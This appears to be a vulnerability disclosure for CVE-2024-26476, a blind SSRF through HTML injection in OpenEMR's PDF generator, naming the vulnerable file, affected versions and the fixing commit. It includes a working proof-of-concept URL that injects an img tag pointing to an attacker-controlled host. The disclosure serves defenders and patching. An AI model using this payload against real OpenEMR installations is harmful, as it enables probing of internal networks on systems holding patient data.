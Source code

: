#  CVE-2024-26476 - OpenEMR Blind SSRF via HTML Injection in PDF Generator (mPDF)

Basically there is no input sanitization in the PDF content that is generated in interface/procedure_tools/labcorp/ereq_form.php.
For example we can use the $form_id variable (line 20) to inject an img tag with the src attribute that points to a server we control.

https://nvd.nist.gov/vuln/detail/CVE-2024-26476

Product: https://www.open-emr.org/

Vulnerable: version < 7.0.2

Vector: A authenticated user must request interface/procedure_tools/labcorp/ereq_form.php with a XSS payload in the formid parameter to insert a malicious img tag

```
http://10.211.55.9/openemr/interface/procedure_tools/labcorp/ereq_form.php?debug=true&formid=<img src="http://10.37.129.2">
```

![image](https://github.com/c4v4r0n/Research/assets/57950943/adae8062-13d5-4f24-ab4d-8aea64e211aa)

Reported by Vinicius Silva on 02/13/2024

Fixed in: 02/14/2024 - https://github.com/openemr/openemr/commit/846301aaa798839025cfb3cf3d58dbfda1e4e5ba
